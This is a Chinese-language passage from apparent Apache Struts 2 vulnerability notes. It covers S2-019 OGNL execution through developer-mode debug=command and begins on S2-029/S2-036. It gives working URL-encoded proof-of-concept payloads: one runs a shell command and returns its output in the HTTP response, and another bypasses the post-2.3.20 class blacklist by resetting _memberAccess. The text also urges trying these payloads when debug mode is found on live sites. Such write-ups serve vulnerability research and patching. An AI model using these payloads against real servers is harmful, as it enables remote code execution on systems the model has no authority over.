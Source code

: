 范围：Struts 2.0.0 - Struts 2.3.15.1

S2-019跟S2-008的第二个漏洞一样，当开启开发者模式时，允许使用command的模式来执行OGNL表达式

具体看S2-008

### POC

```
?debug=command&expression=(%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23m=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23m.setAccessible(true),%23m.set(%23_memberAccess,true),%23q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),%23writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23writer.println(%23q),%23writer.flush(),%23writer.close())
```

### 修复

这里后面的几个版本都是允许执行的，开发者模式下的command并没有被取消掉，所以如果在线上环境碰到debug模式，那就可以尝试一下OGNL表达式的执行

但是由于从struts2 2.3.20之后引入了黑名单模式（excludedClasses, excludedPackageNames 和 excludedPackageNamePatterns），并且使用构造函数的方式也失效了

这里前辈们用到了将SecurityMemberAccess初始化的方式来绕过这个限制，原理可以好好看看这篇文章https://paper.seebug.org/794/#33-struts-2329。

```java
debug=command&expression=((#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.lang.Runtime@getRuntime().exec('open+/System/Applications/Calculator.app')))
```

后续还有一些绕过，后面再讲

## 12. S2-029/S2-036

S2-029影响范围：Struts 2.0.0 - Struts 2.3.24.1 (except 2.3.20.3)

S2-036影响范围：Struts 2.0.0 - Struts 2.3.28.1 （跟S2-029一样，主要在修复的地方讲）

原理跟S2-001差不多，S2-029的触发需要jsp用到标签`<s:textfield name="%{xxxx}"></s:textfield>`，name属性中由一OGNL表达式解析而得，意味着生成的input标签的name属性是动态计算而得的，比如?xxxx=username，此时解析得到的input.name为username。这其中执行了`%{xxxx}`，获得xxxx的内容。而S2-001的修复主要解决的是递归计算OGNL表达式的问题，S2-029就是在进入translateVariables之前就将第一层的OGNL表达式执行完毕
